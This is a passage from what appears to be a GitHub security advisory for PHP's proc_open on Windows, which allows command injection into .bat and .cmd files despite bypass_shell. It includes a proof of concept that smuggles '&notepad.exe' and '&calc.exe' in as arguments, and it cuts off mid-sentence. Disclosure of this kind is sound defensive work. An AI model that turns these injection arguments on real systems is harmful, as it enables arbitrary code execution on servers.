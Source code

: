 # Command injection via array-ish $command parameter of proc_open even if bypass_shell option enabled on Windows

## 악용시 전적으로 본인 책임
## Critical	bukka published GHSA-pc52-254m-w9w7 last week
```
Affected versions
< 8.1.28
< 8.2.18
< 8.3.5

Patched versions
8.1.28
8.2.18
8.3.6
```
## Description
### Summary

NOTE: There are undergoing reports regarding the command injection when executing the batch file, and several programming languages are coordinating the disclosure date. If you decide to not consider this as a vulnerability, please do not disclose this behavior until the end of February. If the coordinated disclosure is needed, please let me know.

Due to the improper handling of command line arguments on Windows, maliciously crafted arguments can inject arbitrary commands even if the bypass_shell option is enabled.

### Details
proc_open executes external commands passed via its arguments. 
The documentation of this function [states the following](https://www.php.net/manual/en/function.proc-open.php):

```
As of PHP 7.4.0, the command may be passed as an array of command parameters. In this case, the process will be opened directly (without going through a shell) and PHP will take care of any necessary argument escaping.
```

```
bypass_shell (windows only): bypass cmd.exe shell when set to true
```

However, when executing .bat or .cmd files, CreateProcess implicitly spawns cmd.exe, resulting in command line arguments being parsed in cmd.exe despite the documentation explicitly stating it doesn't spawn the shell.
While proc_open tries to escape the arguments, command prompts will not recognize \ as the escape character. So, the following command line argument will spawn calc.exe:


```
test.bat "\"&calc.exe"
```
### poc
1. Save the following file as test.bat.
```
echo hello
```
2. Save the following file as test.php

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes);
proc_close($proc);
```

3. Run it with PHP and confirm that notepad.exe is executed.
Alternatively, you can use the following PHP file to confirm that the bypass_shell option doesn't prevent this behavior.

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes, null, null, array("bypass_shell" => true));
proc_close($proc);
```
### Impact
This vulnerability allows malicious command line arguments to execute arbitrary commands if it's passed to .bat or .cmd through proc_open.
Since command line arguments are not expected to be parsed via the shell, it allows unexpected code executio
